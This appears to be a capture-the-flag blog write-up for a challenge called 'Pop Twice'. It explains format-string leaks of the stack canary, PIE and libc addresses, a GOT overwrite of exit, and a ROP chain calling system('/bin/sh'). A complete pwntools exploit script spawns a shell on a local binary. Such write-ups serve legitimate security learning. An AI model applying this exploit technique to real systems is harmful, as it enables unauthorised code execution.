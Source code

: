 # Pop Twice

The challenge file was given, an elf file checking the file propertise we could see it's a 64-bit ELF file, not stripped.

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688625170436.png)

let's try running the ELF file

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688625218436.png)

we could see it ask for input twice and print's out our input to us.

Decompiling the file in ghidra, we could see the decompiled source code:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688625411779.png)

from the source code we could conclude that this is not our regular buffer overflow challenge, because for each input to the buffer there's a bound from the `fgets` function, `local_418` size is `512` and the max input is `0x200` which is `512` in decimal, simillar to `local_218`.

The only way to exploit this program is using the fomart string vulnerability, because our input stored in the buffer is printed right back to us.

Before going forward with the exploit let's run checksec on the ELF file to see the security mechanisms enabled on the file.

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688626124389.png)

we could see that `NX` and `PIE` bit is enabled, meaning we have non executable code in the stack and address layout randomization on the  ELF file respectively, we need to fuzz the ELF file and find some imortant address to bypass the security mechanism.

i wrote a simple bash fuzzer to perform this:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688627879663.png)

running it we found the stack canary at index `43`

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688627999666.png)

we found `PIE` leak at index 139

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688628475148.png)

How do we know that's the `PIE` leak, this is true because main start at:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688628544895.png)

`Libc` leak is found at index 137![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688628727909.png)

having all this offset we could now proced with our exploit.

we could automate this using pwntools:

```python
# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 

```

we could now use the offsets found using gef to readjust the base address of the ELF files;

```python
## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")

```

let's now craft our shell payload to execute `/bin/sh`

```python

pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

```

using the fmtstr vulnerablity payload to reassign the `rip` pointer, we fuzz again to find the offset at which our input is stored on the stack, which is at index `70`,

using the offset we could reassing the `rip` to our payload.

the plan here to exploit this by saving our payload in the stack and running the program again and set our `rip` to where the payload is stored.

**How do we archive this ?**

we start the program and use the fmtstr vulnerability to get all necessay address to bypass the security mechanism, we then set `rip` back to main to run the program again this time we store the payload on the stack, after doing that we set the `rip` back to `pop_rdi_ret ` to run the content stored on the stack.

```python
fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()
```

Getting all this together we have:

```python
#!/usr/bin/python

from os import system
from pwn import *
from struct import pack

## settings
context.binary = exe =  ELF("./chall")


## initializing libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

## spawing process
p = process(exe.path)


s_arr1 = 512 # size of buff1
s_arr2 = 520 # size of buff2

# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 


## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")


pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

 
# using fmtstring vuln to call main again

fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()


# gdb.attach(p, f"""b * main+120
#                 init-gef
#                 got
#                 register
#                 c
#                 x/30wgx $rsp
#                 x/s {bin_sh}
#                 x/s {system_addr}
#                 x/i {pop_rdi_ret}""")

p.interactive()





```

Running the script we have our shell :

![](https://blog.cyb3rguru.tech/posts/phoenix/files/1688631576538.png)
